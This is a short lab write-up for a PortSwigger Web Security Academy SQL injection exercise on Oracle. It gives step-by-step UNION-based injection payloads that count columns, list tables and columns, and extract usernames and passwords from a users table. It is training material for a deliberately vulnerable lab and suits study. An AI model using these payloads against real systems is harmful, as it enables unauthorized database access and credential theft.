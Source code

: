 # SQL Injection Part 3: Portswigger Labs
### [Lab10: SQL injection attack, listing the database contents on Oracle](https://0a4000fb036fe53ec00903d500a80086.web-security-academy.net/filter?category=Lifestyle)
**To solve: Login as the administrator**

**STEP 1:**
Find number of columns 
```html
' UNION SELECT null,null FROM DUAL--
```

**STEP 2:**
Find columns that contains text
```html
' UNION SELECT 'a', 'a' from DUAL--
```

**STEP 3:**
Output the list of tables in the database 
```html
' UNION SELECT table_name,null FROM all_tables--
```

**STEP 4:**
Output the column names of the users table
```html
' UNION SELECT column_name,null FROM all_tab_columns WHERE table_name = 'USERS_RANDOM'--
```

**STEP 5:**
Use the USERNAME_RANDOM and PASSWORD_RANDOM column and USERS_RANDOM table to get credentials
```html
' UNION SELECT USERNAME_RANDOM,PASSWORD_RANDOM FROM USERS_RANDOM--
```

**STEP 6:**
Login


